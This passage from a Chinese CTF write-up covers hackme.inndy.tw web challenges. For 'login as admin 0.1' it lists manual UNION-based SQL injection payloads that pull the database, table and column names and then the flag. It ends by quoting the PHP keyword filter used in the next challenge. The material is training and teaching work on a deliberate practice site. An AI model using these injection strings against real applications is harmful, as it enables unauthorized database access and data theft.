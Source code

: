 然后就获得了 flag。这里的 limit 是指定行数，1, 1表示index为1（实际为2）的。若单指定一个数n，则表示index从0到n的数据。

## 19. login as admin 0.1 (Web)

这一题的网页与上一题一致，不过这次的 flag是放在数据库里面，需要进行注入。根据后面题的提示说sqlmap不再有效，那么对这一题而言，sqlmap应该是有效的，但是也不能每次都靠它，所以还是尝试自己手动来。

经过尝试发现```admin\' union select 1,2,3,4#```会回显2，于是可以构造payload找库名。

```sql
admin\' union select 1,database(),3,4#
```

得到库名 “login\_as\_admin0”。

之后：

```sql
admin\' union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1),3,4#
```

可以得到表名“h1dden_f14g”。

然后：

```sql
admin\' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME=0x68316464656e5f66313467 limit 0,1),3,4#
```

可以发现字段名“the_f14g”。其中“0x68316464656e5f66313467”是表名的ASCII码形式。

之后：

```sql
admin\' union select 1,(select the_f14g from h1dden_f14g limit 0,1),3,4#
```

即可拿到 flag。

## 20. [login as admin 1](https://hackme.inndy.tw/login1/) (Web)

过滤规则有些不同：

```php
<?php

function safe_filter($str)

{

    $strl = strtolower($str);

    if (strstr($strl, ' ') || strstr($strl, '1=1') || strstr($strl, "''") ||

        strstr($strl, 'union select') || strstr($strl, 'select ')

    ) {

        return '';

    }

    return str_replace("'", "\\'", $str);

}
?>
```
